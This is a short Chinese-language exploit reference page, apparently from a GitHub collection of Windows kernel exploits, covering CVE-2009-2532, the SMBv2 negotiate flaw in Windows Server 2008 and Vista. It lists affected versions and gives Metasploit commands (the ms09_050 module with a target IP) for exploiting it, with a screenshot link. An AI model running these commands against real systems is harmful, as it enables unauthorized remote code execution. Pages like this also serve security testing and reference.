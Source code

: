 ### CVE-2009-2532

#### 描述

无法正确处理SMB多协议协商请求数据包中的命令值，这使远程攻击者可以通过精心制作的SMBv2执行任意代码 数据包发送到服务器服务

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | X64/X86          |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

利用msf 测试系统Windows Server 2008 SP2 x86

```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.1.13 #目标IP
run
```

![image-20200823134421895](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2009-2532_win2008_x86_msf.png?raw=true)